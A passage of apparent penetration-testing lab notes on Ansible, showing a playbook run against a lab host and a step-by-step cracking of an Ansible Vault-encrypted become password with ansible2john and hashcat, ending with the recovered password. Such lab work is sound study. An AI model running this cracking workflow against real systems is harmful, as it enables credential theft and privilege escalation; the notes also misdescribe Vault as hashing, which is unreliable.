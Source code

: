 ```yaml
		dest: "/home/offsec/written_by_ansible.txt"
		mode: 0644
		owner: offsec
		group: offsec
```

Now we verify if it worked:
```bash
ansibleadm@controller:/opt/playbooks$ ansible-playbook writefile.yaml
PLAY [Write a file as offsec]
****************************************************************
TASK [Gathering Facts]
***********************************************************************
ok: [linuxvictim]
TASK [copy]
**********************************************************************************
changed: [linuxvictim]
PLAY RECAP
***********************************************************************************
linuxvictim : ok=2 changed=1 unreachable=0 failed=0
skipped=0 rescued=0 ignored=0
```

Ansible does have `Ansible Vault` which securely stores credentials using a hashing format.

For example, the following file `/opt/playbooks/writefilevault.yaml` has a stored Ansible Vault hash:
```yaml
ansible_become_pass: !vault |
$ANSIBLE_VAULT;1.1;AES256
393636316139353262353832326166396132313036386537616661653361313139656630333132323736626166356263323964366533656633313230323964300a323838373031393362316534343863366234356236383736366262373331633362636237373835326637636135343131346437306435323132313130313534300a3837623663333036663631653839623563353836626437653138326632383036
```

We save this in our local kali machine, and use `/usr/share/john/ansible2john.py` to convert it to a hash format for cracking

```bash
kali@kali:~$ python3 /usr/share/john/ansible2john.py ./hash.yml
hash.yml:$ansible$0*0*9661a952b5822af9a21068e7afae3a119ef0312276baf5bc29d6e3ef312029d0*87b6c306f61e89b5c586bd7e182f2806*28870193b1e448c6b45b68766bb731c3bcb77852f7ca54114d70d52121101540
```

Then use hashcat with type `16900`:
```bash
kali@kali:~$ hashcat testhash.txt --force --hash-type=16900
/usr/share/wordlists/rockyou.txt
hashcat (v6.1.1) starting...
...
* Device #1: Kernel amp_a0.7da82001.kernel not found in cache! Building may take a while...
Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 2 secs
$ansible$0*0*9661a952b5822af9a21068e7afae3a119ef0312276baf5bc29d6e3ef312029d0*87b6c306f61e89b5c586bd7e182f2806*28870193b1e448c6b45b68766bb731c3bcb77852f7ca54114d70d52121101540:spongebob
...
```
